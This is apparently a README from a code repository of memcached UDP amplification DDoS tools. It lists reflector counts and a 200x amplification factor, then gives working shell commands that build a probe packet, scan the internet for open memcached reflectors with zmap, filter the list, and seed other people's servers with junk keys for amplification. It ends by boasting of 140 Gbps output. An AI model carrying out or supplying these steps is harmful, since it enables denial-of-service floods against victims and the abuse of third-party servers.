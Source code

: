 # MemcacheD (Active Q3 2020)

## Port: 11211

## Proto: UDP

## Amplification factor: 200x (Q2 2020 - using `memcached-static.c` script)

## Reflector count: ~1,500 (Sept 2020)

### Remediation - 400 less reflectors than at Q2 2020

---

Amplification scripts in this folder:

- **memcached-dynamic.c** - Dynamic key reflection query generator C script (raw sockets)
- **memcached-static.c** - Static key reflection template C socket script (raw sockets)

This folder holds all relevant scripts for Memcache amplification (in 2020) utilising either dynamic `<ip> <value>` mg/get/gets command to the effect of garnering the largest amplification factor per IP with the least amount of work (**see memcached-filter.py**); alternatively utilising static gets command to known memcache keys that are pre-seeded from a list file.

Memcache Daemon has thankfully been patched and most old and vulnerable devices have been removed from the internet following the [1.7tbps attack incident back in 2017](https://www.zdnet.com/article/new-world-record-ddos-attack-hits-1-7tbps-days-after-landmark-github-outage/) through efforts of the community at large.

### How does it work

- Using Python to dynamically seed MemcacheD devices that respond to "stats items" query, with bogus data to keys of length 1 that are then used by dynamic or static amplification scripts.
- Either dynamic script (scanned and filtered list of keys) or static script (pre-seeded keys) to generate amplification via raw sockets.

### How to use

#### First use zmap to scan for all reflectors responding to "stats items"

- `echo -ne '\x00\x01\x00\x00\x00\x01\x00\x00stats items\r\n'>memecached.pkt`
- `zmap -p11211 --output-filter='sport=11211' -Mudp --probe-args=file:memecached.pkt -f "saddr,udp_pkt_size,data" -o /root/memcached-live`

#### Filter list using this command (this removes bogus responses and cleans up the list)

- `cat /root/memcached-live | sed 's/,/ /g' | sed 's/saddr.*//g' | awk '$2 == 21 || $2 == 20 || $2 > 26' | awk '{print $1}' | uniq >memcached.list;wc -l memcached.list`

The list is now ready for seeding with the python script in this folder. You can now download the list `memcached.list` as this will be usable by the C scripts in this folder as well.

#### Run the seeding process

This just uses a junkfile to hold output which is erased at the start if it exists, thus you can paste the entire line in over and over to seed the IPs present in the `memcached.list` file!

- `rm junkfile;shuf memcached.list>shufflejunk;mv shufflejunk memcached.list;screen -dmS seeder python3 memecached-seeder.py memcached.list junkfile`

#### Congrats, 140gbps output with 600mbps input...
